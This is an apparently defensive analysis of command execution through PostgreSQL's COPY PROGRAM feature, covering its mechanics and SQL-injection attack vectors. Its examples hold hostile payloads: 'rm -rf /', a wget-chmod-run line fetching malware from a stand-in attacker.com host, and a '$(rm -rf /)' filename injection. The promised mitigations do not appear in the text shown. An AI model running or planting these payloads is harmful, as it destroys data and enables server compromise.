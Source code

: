 ## Deep Dive Analysis: Server-Side Command Execution via `COPY PROGRAM` in PostgreSQL

This analysis provides a comprehensive look at the "Server-Side Command Execution via `COPY PROGRAM`" attack surface in applications utilizing PostgreSQL. We will break down the mechanics, potential attack vectors, and provide detailed mitigation strategies for your development team.

**1. Understanding the Attack Surface:**

The core of this vulnerability lies within the powerful `COPY` command in PostgreSQL, specifically its `PROGRAM` clause. While designed for legitimate data import and export scenarios, this feature allows the database server to execute arbitrary shell commands with the privileges of the PostgreSQL server process. This is the fundamental mechanism attackers exploit.

**Key Takeaways:**

* **Legitimate Feature, Dangerous Potential:**  `COPY PROGRAM` is not a bug, but a designed functionality that becomes a security risk when not properly controlled.
* **Privilege Escalation (Implicit):**  An attacker leveraging this vulnerability doesn't necessarily need direct root access. They gain the privileges of the PostgreSQL service account, which can often be significant enough to compromise the server.
* **Direct and Indirect Exploitation:**  The vulnerability can be exploited directly through SQL injection or indirectly through application logic that constructs and executes `COPY PROGRAM` commands based on user input.

**2. Deep Dive into the Mechanics:**

* **How `COPY PROGRAM` Works:** When a `COPY ... TO/FROM PROGRAM 'command'` statement is executed, the PostgreSQL backend process forks a shell and executes the specified `command`. The standard input/output of this shell process is then connected to the data stream being copied.
* **Security Context:** The command executes with the same user and group ID as the PostgreSQL server process. This is crucial because this user often has broad permissions on the server to manage database files and potentially other system resources.
* **No Built-in Sandboxing:** PostgreSQL does not inherently sandbox the execution of commands through `COPY PROGRAM`. It relies on the operating system's security mechanisms and the principle of least privilege to mitigate risks.

**3. Detailed Attack Vectors:**

Here's a breakdown of how an attacker might exploit this vulnerability:

* **Direct SQL Injection:**
    * **Scenario:** An application directly incorporates user input into a `COPY PROGRAM` statement without proper sanitization.
    * **Example:** `EXECUTE 'COPY table_name TO PROGRAM ''' || $userInput || '''';`
    * **Attack:** An attacker could inject malicious commands within `$userInput`, such as `rm -rf /`, `wget attacker.com/malware -O /tmp/malware && chmod +x /tmp/malware && /tmp/malware`, or commands to exfiltrate data.

* **Indirect Exploitation through Application Logic:**
    * **Scenario:** The application uses `COPY PROGRAM` for legitimate purposes, but the command parameters are influenced by user-controlled data without sufficient validation.
    * **Example:** An application allows users to specify a filename for export, and this filename is used in a `COPY table_name TO PROGRAM 'gzip > /path/to/' || $userSpecifiedFilename;` command.
    * **Attack:** An attacker could provide a filename containing shell metacharacters or commands, like `$(rm -rf /)`. While the intent might be to create a file with a specific name, the shell interpretation could lead to command execution.
